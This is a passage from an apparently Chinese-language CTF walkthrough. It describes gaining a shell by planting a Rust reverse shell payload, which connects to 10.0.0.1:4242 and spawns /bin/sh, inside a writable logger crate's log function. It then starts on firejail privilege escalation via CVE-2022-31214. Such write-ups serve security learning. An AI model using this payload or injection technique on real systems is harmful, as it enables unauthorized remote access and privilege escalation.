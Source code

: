 在/opt下我们可以找到它们

我们无权修改main.rs，但是通过cargo.toml发现它调用的logger模块是在/opt/crates下的

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/728d07fb-2150-b89e-ca51-412ab2a91417.png)

lib.rs可写

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f7a9b707-5f06-74d3-ecbc-c8a4cd12add5.png)

将rust reverse shell payload拿下来改一改

	use std::net::TcpStream;
	use std::os::unix::io::{AsRawFd, FromRawFd};
	use std::process::{Command, Stdio};

	fn main() {
		let s = TcpStream::connect("10.0.0.1:4242").unwrap();
		let fd = s.as_raw_fd();
		Command::new("/bin/sh")
			.arg("-i")
			.stdin(unsafe { Stdio::from_raw_fd(fd) })
			.stdout(unsafe { Stdio::from_raw_fd(fd) })
			.stderr(unsafe { Stdio::from_raw_fd(fd) })
			.spawn()
			.unwrap()
			.wait()
			.unwrap();
	}

把shellcode改到lib.rs的log函数中，当main那边调用log函数时，我们的nc应该会收到shell

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/676717bd-18ad-f92b-d4ee-debbde510c5e.png)

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/ad0acd30-0d5a-9c63-cba8-7ed613efd1c6.png)

## 本地权限提升 - CVE-2022-31214

我们在atlas的不受限制的shell中发现了一个新的组，查找一下有关该组的目录和文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/a8443caa-851a-5a4f-3b58-66364acb4bfd.png)

### don't upgrade

升级一下shell

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/431e36dc-4846-2d9f-0eb8-fae455ec2a73.png)

**但是我发现使用pty之后，shell似乎又变得受限了，所以重新获取了一次shell**

可以看到firejail版本是0.9.68，并且还有root的suid

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/6fd446f4-0142-3301-600d-9791ded497c7.png)
